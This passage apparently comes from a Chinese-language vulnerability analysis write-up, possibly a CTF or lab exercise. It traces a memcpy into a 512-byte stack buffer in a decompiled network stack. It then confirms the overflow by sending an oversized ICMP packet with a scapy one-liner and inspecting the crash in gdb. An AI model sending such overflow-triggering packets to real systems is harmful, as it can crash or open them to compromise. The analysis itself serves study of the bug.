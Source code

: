 找到memcpy后，分析对其的引用，进而发现sub_102214调用了memcpy，拷贝目标为函数参数a3：

```c
_DWORD *__cdecl sub_102214(int a1, int a2, int a3, _DWORD *a4)
{
    ...
    memcpy((_BYTE *)(a3 + 24), (_BYTE *)(v5 + 4), v6 - 4);
    ...
```

函数sub_101F9F调用了sub_102214，并且第三个参数为位于其栈上的v8的地址，此段栈空间大小为512字节：

```c
_DWORD *__cdecl sub_101F9F(int a1, int a2, int a3, _DWORD *a4)
{
  _DWORD *result; // eax
  int v5; // eax
  int v6; // eax
  int v7; // [esp+4h] [ebp-214h] BYREF
  char v8[512]; // [esp+8h] [ebp-210h] BYREF
  int v9; // [esp+208h] [ebp-10h]
  int v10; // [esp+20Ch] [ebp-Ch]

  if ( a2 > 13 )
  {
    v10 = a1;
    v5 = *(unsigned __int16 *)(a1 + 12);
    if ( v5 == 8 )
    {
      sub_102214(v10 + 14, a2 - 14, (int)v8, &v7);
      ...
```

感觉很像这里，所以可以进行调试确认

### 调试确认

首先可以将断点打在sub_102214调用memcpy时，即0x10233F，然后发送payload并观察：

```python
from scapy.all import *
send(IP(dst="10.11.11.3")/ICMP()/(b'a'*1000))
```

注意要先ping通，所以可以先不打断，ping通后在gdb中按contorl+c然后在打断：

```c
Breakpoint 1, 0x0010233f in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────[ REGISTERS ]─────────────────────────────────
 EAX  0x1907dd8 —▸ 0x4005daf —▸ 0 —▸ 0xf000ff53 ◂— 0
 EBX  0x10a6b4 —▸ 0 —▸ 0xf000ff53 ◂— 0
*ECX  0x3ec —▸ 0xf000ff53 —▸ 0 ◂— push   ebx /* 0xf000ff53 */
 EDX  0x10c8d2 —▸ 0 —▸ 0xf000ff53 ◂— 0
 EDI  0 —▸ 0xf000ff53 ◂— 0
 ESI  0 —▸ 0xf000ff53 ◂— 0
 EBP  0x1907da0 —▸ 0x1907fd0 —▸ 0x1907ff0 —▸ 0 —▸ 0xf000ff53 ◂— ...
 ESP  0x1907d78 —▸ 0x1907dd8 —▸ 0x4005daf —▸ 0 —▸ 0xf000ff53 ◂— ...
 EIP  0x10233f —▸ 0x6765e8 —▸ 0 —▸ 0xf000ff53 ◂— 0
──────────────────────────────────[ DISASM ]──────────────────────────────────
 ► 0x10233f    call   0x108aa9                      <0x108aa9>
 
   0x102344    add    esp, 0x10
   0x102347    mov    eax, dword ptr [ebp + 0x10]
   0x10234a    mov    dword ptr [ebp - 0x18], eax
   0x10234d    mov    eax, dword ptr [ebp - 0x18]
   0x102350    movzx  edx, byte ptr [eax]
   0x102353    and    edx, 0xf
```